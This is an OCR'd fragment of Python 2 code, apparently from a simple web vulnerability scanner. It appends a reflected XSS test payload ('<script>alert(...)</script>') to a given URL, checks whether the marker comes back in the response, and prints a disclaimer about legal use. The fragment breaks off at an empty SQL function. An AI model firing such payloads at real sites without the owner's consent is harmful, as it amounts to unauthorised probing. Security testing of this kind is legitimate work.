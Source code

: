 ```````````````````¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
	

	try:

		print(W+'[+]'+G+' Site work'+E)

		scr = ';<script>alert(111111111111111111111);</script>'

		site_xxs = site+scr

		res = urllib2.urlopen(site_xxs)

		info = res.info()

		print('################Info################\n')

		print(info)

		print('####################################\n')

		text = res.read()



		if "111111111111111111111" not in str(text):

			print(F+'[!]'+' Site not have XXs '+E)

			exit()

		else:

			print(U+W+'[++]'+B+' Site '+site +' have xxs vulnerability'+E)

			print(W+'Payload: '+G+site_xxs+E)

			sys.exit(1)



	except:

		print(F+'[!]'+' Fatal Error'+E)

		exit()

def desc():

	print(F+'''

    This program was created for review and not for causing harm.

    Usage of technique for attacking targets without prior mutual consent is illegal.

    Developers assume no liability and are not responsible for any misuse or damage caused by this program.

    '''+E)



def SQL():

```````````````````